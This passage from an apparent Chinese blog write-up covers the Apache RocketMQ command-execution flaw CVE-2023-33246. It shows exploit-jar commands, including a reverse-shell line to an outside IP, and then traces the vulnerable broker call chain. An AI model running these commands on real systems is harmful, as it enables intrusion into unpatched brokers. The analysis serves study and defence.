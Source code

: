 反弹结果

![](https://gitee.com/fuli009/images/raw/master/public/20230616185556.png)

    
    
    git clone https://github.com/SuperZero/CVE-2023-33246.git  
    java -jar CVE-2023-33246.jar -ip "127.0.0.1:10911" -cmd "222 >/root/2.txt"

![](https://gitee.com/fuli009/images/raw/master/public/20230616185557.png)

进入容器，查看根部录下文件是已写入

![](https://gitee.com/fuli009/images/raw/master/public/20230616185558.png)

    
    
    java -jar CVE-2023-33246.jar -ip "127.0.0.1:10911" -cmd "bash -i >& /dev/tcp/10.10.14.72/65532 0>&1"

反弹shell

![]()

#### 漏洞分析

启动broker路由如下：

    
    
    main:50, BrokerStartup (org.apache.rocketmq.broker)  
    start:55, BrokerStartup (org.apache.rocketmq.broker)   
    start:1570, BrokerController (org.apache.rocketmq.broker)   
    startBasicService:1527, BrokerController (org.apache.rocketmq.broker)   
    start:57, FilterServerManager (org.apache.rocketmq.broker.filtersrv)

当在函数`org.apache.rocketmq.broker.filtersrv.FilterServerManager`61行

![](https://gitee.com/fuli009/images/raw/master/public/20230616185559.png)

调用下面的`createFilterServer`方法，71行中看到从配置文件中获取参数。72行调用方法`buildStartCommand`

![](https://gitee.com/fuli009/images/raw/master/public/20230616185600.png)

该方法中取到变量`NamesrvAddr`和 `RocketmqHome`,获取之后进行拼接cmd，在72行拿到拼接后的`cmd`

![](https://gitee.com/fuli009/images/raw/master/public/20230616185601.png)

进入for循环后在`org.apache.rocketmq.broker.filtersrv.FilterServerUtil`中给的`callshell`方法去执行命令

![](https://gitee.com/fuli009/images/raw/master/public/20230616185602.png)

该中间件本来就是每30秒执行一次，漏洞产生的就是修改了配置文件，变量被赋值为了恶意命令，导致了命令执行。

![](https://gitee.com/fuli009/images/raw/master/public/20230616185603.png)
**原创稿件征集**

征集原创技术文章中，欢迎投递
